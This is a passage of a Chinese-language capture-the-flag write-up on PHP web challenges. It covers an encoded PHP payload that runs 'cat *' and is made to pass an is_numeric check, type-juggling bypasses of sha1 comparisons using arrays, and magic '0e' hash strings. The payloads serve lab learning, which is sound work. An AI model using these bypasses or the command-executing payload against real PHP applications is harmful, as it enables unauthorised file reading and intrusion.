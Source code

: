 故：

```
$a='<?=`cat *`;';
$b=base64_encode($a); // PD89YGNhdCAqYDs=
$c=bin2hex($b);     
// 等号在base64中只是起到填充的作用，不影响具体的数据内容，
// 输出5044383959474e6864434171594473
// 带e的话会被认为是科学计数法，可以通过is_numeric检测

// 因为substr的存在，需要在其前面加上两个数字，这随便加了2个1
// 即v2=115044383959474e6864434171594473
```

## 104、106-sha1

```php
# 104
if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}

# 106
if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2) && $v1!=$v2){
        echo $flag;
    }
}
```

104直接给v1和v2赋同样的值就行

106：

> `substr()`、`sha1()`、`base64_decode()`只能处理传入的字符串数据
> 当传入数组后会报出Warning错误，但仍会正常运行并返回值NULL，就会使得两边相等

```
$a=[];var_dump(substr($a, 123));		//NULL
var_dump(sha1($a));						//NULL
# sha1后为0e数字的值：aaroZmOk aaO8zKZF aaK1STfY
# aaK1STfY	0e76658526655756207688271159624026011393
# aaO8zKZF	0e89257456677279068558073954252716165668
var_dump(substr($a, 123) === sha1($cc));	//bool(true)
```

1是数组绕

```
GET:
?v2[]=1
POST:
v1[]=2
```

